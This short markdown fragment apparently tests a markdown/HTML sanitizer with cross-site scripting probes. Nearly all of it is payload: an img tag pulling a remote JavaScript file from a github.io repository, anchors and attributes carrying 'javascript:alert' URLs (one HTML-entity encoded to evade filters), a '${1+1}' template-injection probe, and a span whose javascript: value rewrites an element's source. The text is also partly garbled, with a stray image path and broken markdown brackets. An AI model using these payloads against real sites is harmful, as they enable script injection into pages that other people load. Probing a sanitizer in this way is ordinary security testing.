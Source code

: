 ![

<img src="../../../../../../../img/onload/../../r89shi/r89shi.github.io/blob/master/teste.js">

<a href="//document.alert(2);/,javascript:alert(1)</title>//#">XXX</a>

<img id="meu" src="" tabindex=&#60;&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#41;></div>
<div id="${1+1}">bbbb</div>
<span value="javascript:document.getElementById('user-content-meu').src='123';">aaa</span>

](()
